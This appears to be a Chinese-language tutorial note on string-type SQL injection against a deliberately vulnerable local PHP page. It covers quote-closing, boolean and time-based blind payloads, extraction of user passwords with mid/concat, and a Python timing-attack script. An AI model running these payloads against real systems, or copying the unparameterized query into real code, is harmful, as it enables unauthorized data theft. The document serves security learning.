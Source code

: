 # blablabla

Alt+Z vscode内设置单行自适应窗口宽度换行

来看看字符串类型的sql注入：

```sql
<?php
    $conn = mysqli_connect("localhost","root","kali","test");
    $res = mysqli_query($conn, "SELECT title, content FROM wp_news WHERE id='".$_GET['id']."'");
    $row = mysqli_fetch_array($res);
    
    echo "<center>";

    echo "<h1>".$row['title']."</h1>";

    echo "<br>";
    
    echo "<h1>".$row['content']."</h1>";

    echo "</center>";
?>
```

这种情况下，加了引号来限制类型，因此

?id=2-1 等价于id=2
?id=3-2 等价于id=3
?id=2a 等价于id=2

因为php会自动把字符串想办法变成数，因此导入id=3-2时页面输出会是空，由此我们便可以推理出写代码的人加了引号来限制简单的sql注入

一种很自然（并非自然）的想法是提前闭合表达式中的引号，比如：

?id=2%27%23 (?id=2'#) 代入之后实际sql命令变成：

```sql
SELECT title, content FROM wp_news WHERE id='2'#'
```

因为#后面的东西会被注释掉，所以实际效果和id=2是一样的

在此基础上，利用布尔表达式我们可以进行一些别的操作比如：

?id=1' and '1 (因为懒直接写了转译后字符，实际应用写url编码)

这样实际上和id=1等价，因为后面的1被转换成bool里的true

类似的令：

?id=1' and 'a

这样不会有任何输出，因为a被转译为bool里的false

利用这种特性可以试验一些关键变量的正确值，因为只要给id表达式的and后面连接判断表达式sensitive_data='a'之类的，就可以知道其值是否等于'a',不然则没有输出。

?id=1' and sensitive_data='a

↑像这样

这样当然很慢，我们可以用范围来猜测，转译后的表达式形如：

'a'<sensitive_data<'n'

对于更复杂的字符串，我们可以使用mysql里的字符串工具来处理：

substr(str, start, length) 从原字符串str的start开始（从1开始）截取长度为Length的子串（默认一直到尾）

别名有mid()和substring()

concat(a, b, c, ...) 用于将多个字符串拼接成一个长字符串

因此我们就可以一位位的去这样子猜测user_pwd:

(select mid((select concat(user, 0x7e, pwd) from wp_user),1,1))='a'#

这样子可以试一下第一位是不是'a'，因此利用穷举法便可以试出（并不长的）密码

如果要脚本化流程，还可以通过运行时间来判断我们的boolean条件是否符合，这在一些界面响应固定的情况下效果很好：

select ... from ... where id='1' or sleep(1)

if(substr(user(),1,1)='r', sleep(5), 0)

结合if()可以放在payload中用时间来判断字符串等或不等

```python
import requests
import time

# 目标URL，INJECT_HERE 替换为注入内容
url = "http://localhost/vuln.php?id="

# 要测试的payload，判断数据库名第一个字母是否是 'a'
payload = "1' AND IF(SUBSTRING(DATABASE(),1,1)='a', SLEEP(5), 0)-- "

# 构造完整的注入URL
full_url = url + requests.utils.quote(payload)

# 记录请求前时间
start = time.time()

# 发送请求
response = requests.get(full_url)

# 记录请求后时间
end = time.time()

# 计算响应时间
delay = end - start

if delay > 4:
    print("条件为真（猜测成功）！数据库名第1个字符是 'a'")
else:
    print("条件为假（猜测失败）！数据库名第1个字符不是 'a'")

print(f"响应时间：{delay:.2f} 秒")
```

简单的利用脚本
